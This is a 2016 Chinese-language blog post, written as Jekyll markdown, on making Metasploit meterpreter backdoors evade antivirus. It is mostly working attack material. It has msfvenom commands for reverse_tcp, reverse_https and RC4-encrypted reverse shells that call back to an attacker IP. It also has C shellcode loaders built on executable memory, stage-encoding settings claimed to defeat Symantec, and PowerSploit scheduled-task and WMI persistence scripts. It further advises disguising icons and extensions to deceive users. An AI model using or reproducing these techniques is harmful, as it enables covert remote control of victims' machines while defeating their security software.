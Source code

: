 ```yaml
---
layout: post
title:  "Bypass AV meterpreter免杀技巧"
date:   2016-11-15 14:41:01 +0800
categories: MSF
tag: Bypass AV
---
```


* content
{:toc}



0x01 meterpreter简介
------------------

MetasploitFramework是一个缓冲区溢出测试使用的辅助工具，也可以说是一个漏洞利用和测试平台，它集成了各种平台上常见的溢出漏洞和流行的shellcode，并且不断更新，使得缓冲区溢出测试变的方便和简单。
需要说明的是meterpreter在漏洞利用成功后会发送第二阶段的代码和meterpreter服务器dll，所以在网络不稳定的情况下经常出现没有可执行命令，或者会话建立执行help之后发现缺少命令，经常出现什么sending stager error，如果网络真的很差的话，可以选用stageless meterpreter。

（meterpreter网上的资料很多，drops上就有不少，我们就长话短说，介绍最有用的几个。）

0x02 生成后门
---------

在旧的metasploit中，生成payload是用msfpayload+msfencode，之后rapid7整合了这两个命令变成了msfvenom，并添加了更多的功能，下面是用msfvenom生成backdoor的实例。

    msfvenom -p  windows/meterpreter/reverse_tcp lhost=192.168.1.200 lport=4444 -f exe > /root/Desktop/Green_m.exe

这样可以生成一个使用tcp协议反向连接到192.168.1.200的4444端口的meterpreter的后门。
这样生成的exe可以运行，但是会被杀掉。

0x03 生成shellcode免杀
------------------

长话短说，手动编译meterpreter并对shellcode进行编码就能绕过静态查杀，meterpreter本身就是直接加载进内存并且有编码，绕过动态查杀基本没问题，(当然你也可以使用veil-evasion，不过效果不怎么好)

    msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ lhost=192.168.1.200 lport=4444   -f c

上述命令生成在之前的基础上生成基于c语言格式的shellcode，通过e参数指定编码方式，i参数指定编码次数，b参数去除指定代码，一般是空代码或者错误代码，-f指定生成格式。

    unsigned char buf[] = 
    "shellcode is here";
    main()
    {
    	( (void(*)(void))&buf)();
    }

这种方式vc++6.0能够成功编译，但是vs编译会报错，可以换成

    main()
    {
    	Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    	memcpy(Memory, buf, sizeof(buf));
    	((void(*)())Memory)();
    }

还有很多其他的方法，这里就不一一测试了。

**友情提示：在实战情况下，免杀效果会根据编译器和系统环境而变化，可以多准备一些环境进行免杀工作。**

通过上述方法编译生成的exe可以绕过几乎100%杀软，包括360，卡巴斯基，小红伞等杀软。


0x04 选择payload进行免杀
------------------

上面生成shellcode的方式是针对杀软静态免杀的，接下来说到动态行为免杀。

在对市面上主流的杀软进行测试的过程中，发现symantec会在meterpreter回连成功，从metasploit里接受数据的时候报毒。

无论是自己手动编码编译还是msf自动生成的exe都会这样被报毒。

经过笔者自己测试，使用reverse_https等payload可以anti symantec。

    msfvenom -p  windows/meterpreter/reverse_https  lhost=192.168.1.200 lport=443   -f c

但是需要在metasploit设置

    set EnableStageEncoding true
    set stageencoder x86/fnstenv_mov
    set stageencodingfallback false

将控制端向被控制端发送的stage进行编码，从而绕过symantec的查杀。

同样，使用reverse_tcp_rc4也有同样的效果，而且不能设置stageencoder选项，更稳定更方便。

    msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=192.168.1.200 lport=4444 RC4PASSWORD=Green-m  -f c

利用rc4对传输的数据进行加密，密钥在生成时指定，在监听的服务端设置相同的密钥。就可以在symantec眼皮地下执行meterpreter。

这里做一个抛砖引玉的作用，其他payload的查杀效果需要各大黑客自己去测试。

0x05 meterpreter常驻的免杀
---------------------

常见的添加meterpreter 常驻的方法无非两种，

persistence和metsvc，这两种方法效果还是不错的，不过在面对杀软的时候无能为力，几乎100%被杀。

下面介绍几种能绕过杀软的添加自启动方法。

 - **1.使用exploit/windows/local/registry_persistence**

通过用户自己指定payload及编码方式，将shellcode添加到注册表，然后再利用powershell加载该shellcode，成功运行meterpreter。

由于加载的payload是由metasploit指定，每次都不一定一样，这个方法在面对大部分主流AV的时候简直强大，只要不监视注册表操作不限制powershell，几乎不会被杀。

同类型的还有其他payload，如exploit/windows/local/vss_persistence，exploit/windows/local/s4u_persistence，有的效果也不错，如添加计划任务启动的功能，但或多或少都有一些限制，总体说来不如上面讲到的方法。

 - **2.利用powershell**

powershell因为其特性，被很多杀毒软件直接忽视，因此用这个方法经常能达到出其不意的效果

其实这个方式和第一种原理都是一样，不过自定义的powershell脚本效果更佳。

这里可以利用一个工具powersploit，下面用它来示范一个简单的例子。

    Import-Module .\Persistence\Persistence.psm1
    
    $ElevatedOptions = New-ElevatedPersistenceOption -ScheduledTask -OnIdle
    
    $UserOptions =New-UserPersistenceOption -ScheduledTask -Hourly
    
    Add-Persistence -FilePath .\Green_m.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose

其中Green_m.ps1是加载有payload的powershell脚本文件，你可以用msf生成一个加载meterpreter的ps1文件。

    msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.200 lport=4444 -f psh-reflection -o Green_m.ps1

当然你也可以选择不执行powershell文件而直接执行某个PE文件，可以通过将代码赋予变量来执行。

    $Green_m = { c:\windows\system32\notepad.exe }
    
    $ElevatedOptions =New-ElevatedPersistenceOption -PermanentWMI -AtStartup
    $UserOptions =New-UserPersistenceOption -ScheduledTask -Hourly
    Add-Persistence -ScriptBlock $Green_m -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $Us erOptions -Verbose -PassThru | Out-EncodedCommand | Out-File .\EncodedPersistentScript.ps1

powersploit还有其他非常有用的功能，有兴趣可以自己去github或者使用get-help查询。

 - **3.手动编写**

只要是工具用得太多都难免被AV发现，这个时候就需要手动编写自启动功能。

手动添加自启动，自删除，再改个图标后缀技能骗过杀软也能骗过人眼，扩展一下就是个大马，这里就不多说了。

0x06 总结
-------

meterpreter因为其简单多变的结构，强大的功能，在渗透中面对未知杀软环境的情况下效果不错。

***注：本文所做所有测试不保证完全有效，仅供参考。***

转载请注明出处：[https://green-m.github.io/2016/11/15/meterpreter-bypass-av/](https://green-m.github.io/2016/11/15/meterpreter-bypass-av/)
